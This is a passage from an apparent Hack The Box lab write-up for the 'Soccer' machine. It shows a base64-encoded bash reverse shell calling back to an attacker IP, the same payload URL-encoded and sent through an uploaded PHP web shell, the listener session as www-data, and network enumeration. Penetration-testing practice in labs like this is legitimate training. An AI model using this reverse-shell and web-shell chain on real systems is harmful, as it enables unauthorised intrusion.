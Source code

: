 
We achieved `RCE` through `file upload vulnerability`.

# SHELL AS WWW-DATA

We can use simple bash reverse shell.

```bash

echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41MC80NDMgMD4mMQo= | base64 -d | bash

```

URL encoding the payload so that dangerous characters does not create a problem:

```bash

%65%63%68%6f%20%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%43%34%78%4e%43%34%31%4d%43%38%30%4e%44%4d%67%4d%44%34%6d%4d%51%6f%3d%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68

```

URL: 

```bash

http://soccer.htb/tiny/uploads/curiosity.php?cmd=%65%63%68%6f%20%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%43%34%78%4e%43%34%31%4d%43%38%30%4e%44%4d%67%4d%44%34%6d%4d%51%6f%3d%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68

```

```bash

┌──(n3hal㉿Universe7)-[~/Documents/hackthebox/soccer]
└─$ nc -nlp 443
bash: cannot set terminal process group (1041): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.0$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash-5.0$ whoami
whoami
www-data
bash-5.0$ 

```

# ENUMERATING THE BOX

```bash

bash-5.0$ netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:9091            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1106/nginx: worker  
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
```